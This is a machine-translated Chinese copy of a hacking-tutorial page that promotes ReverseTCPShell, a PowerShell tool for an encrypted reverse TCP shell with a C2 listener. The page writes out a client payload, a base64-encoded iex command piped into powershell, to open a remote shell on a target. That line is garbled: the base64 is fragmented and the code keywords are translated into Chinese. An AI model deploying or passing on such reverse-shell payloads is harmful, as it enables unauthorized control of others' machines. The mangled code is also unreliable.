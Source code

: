 # ReverseTCPShell:PowerShell ReverseTCP Shell，客户端和服务器

> 原文：<https://kalilinuxtutorials.com/reversetcpshell/>

[![ReverseTCPShell : PowerShell ReverseTCP Shell, Client & Server](img//5ad621d911a1112f5444f10e3d752c8b.png "ReverseTCPShell : PowerShell ReverseTCP Shell, Client & Server")](https://1.bp.blogspot.com/-KKIFRv6qFWI/XPopvYDgG6I/AAAAAAAAAsM/WjEQQK7JCaUYYHZFMvNMPzYJryP691VGgCLcBGAs/s1600/Payload%2BExecution.png)

**ReverseTCPShell** 是一个使用 PowerShell SecureString 在 TCP 上进行反向加密(AES 256 位)Shell 的工具。

*   **攻击者(C2 服务器监听器):**

PS >。\ReverseTCP.ps1

*   **目标(客户端):**

**cmd>echo iex([字符串]([文本]。编码::Unicode。getstring([转换]::frombase 64 string((jabbacccwbladyanaa 9 acaoabwabkamakwbbae 0 aygaciaasbaagaxaazgayagayagakadqbkgekhyakahualwb 4 afgargbfahuygb 0 ahqabhahyawawaagawa BWA 9 acaowasazqb5ad 0 akbbibambwahyachyazbyqax QA 6 adoargbyag 8 abqbagewbladyanabaqacgbpg 4 azwaac 退出| powershell–**

**也读作-[Metabigor:没有任何 API 键的命令行搜索引擎](https://kalilinuxtutorials.com/metabigor-search-engines-api-key/)**

### 概念验证:

*   有效负载执行:

![](img//3d813459deaaa895a9578cca71ff7aaa.png)

*   分析加密流量:

![](img//f22fd5e4033d061275fdc4dc6f5754fc.png)[**Download**](https://github.com/ZHacker13/ReverseTCPShell)